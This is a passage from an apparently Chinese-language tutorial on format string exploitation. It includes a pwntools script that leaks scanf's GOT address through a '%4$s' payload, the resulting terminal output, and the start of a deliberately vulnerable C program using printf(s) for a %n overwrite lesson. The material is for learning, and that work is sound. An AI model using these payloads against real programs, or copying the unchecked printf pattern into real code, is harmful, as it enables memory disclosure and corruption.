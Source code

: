显然 0xffffd160 处所对应的格式化字符串所对应的变量值 0x73243425并不能够被改程序访问，所以程序就自然崩溃了。

那么设置一个可访问的地址呢？比如scanf@got，结果会怎样呢？应该是输出scanf的地址了。

首先，获取scanf@got的地址：

```
from pwn import *
sh = process('./a.out')
elf = ELF('./a.out')
__isoc99_scanf_got = elf.got['__isoc99_scanf']
print hex(__isoc99_scanf_got)
payload = p32(__isoc99_scanf_got) + b'%4$s'
print payload
gdb.attach(sh)
sh.sendline(payload)
sh.recvuntil('%4$s\n')
print hex(u32(sh.recv()[4:8])) # remove the first bytes of __isoc99_scanf@got
sh.interactive()
```

其中，我们使用 gdb.attach(sh) 来进行调试。

```
yutao@ubuntu:~/Desktop$ python3 1.py 
[+] Starting local process './a.out': pid 10143
[*] '/home/yutao/Desktop/a.out'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
0x804c014
b'\x14\xc0\x04\x08%4$s'
[*] running in new terminal: /usr/bin/gdb -q  "./a.out" 10143
[-] Waiting for debugger: debugger exited! (maybe check /proc/sys/kernel/yama/ptrace_scope)
0xf7d76e80
[*] Switching to interactive mode
[*] Process './a.out' stopped with exit code 0 (pid 10143)
[*] Got EOF while reading in interactive
```

确实得到了scanf的地址。

## 覆盖内存

上面谢了如何利用格式化字符串来泄露栈内存以及任意地址内存，那么有没有可能修改栈上的值呢？甚至修改任意地址变量的内存呢？答案是可行的，只要便令对应的地址科协，就可以利用格式化字符串来修改其对应的数值

> %n,不输出字符，，但是可将已经成功成功输出的字符个数写入对应的整型指针参数所指的变量。

通过这个类型参数，再加上一些小技巧，我们就可以达到我们的目的，这里仍然分为两部分，一部分为覆盖栈上的变量，第二部分为覆盖指定地址的变量。

示例程序：

```c
#include <stdio.h>
int a = 123, b = 456;
int main() {
  int c = 789;
  char s[100];
  printf("%p\n", &c);
  scanf("%s", s);
  printf(s);
  if (c == 16) {
	puts("modified c.");
  } else if (a == 2) {
	puts("modified a for a small number.");
  } else if (b == 0x12345678) {
	puts("modified b for a big number!");
```
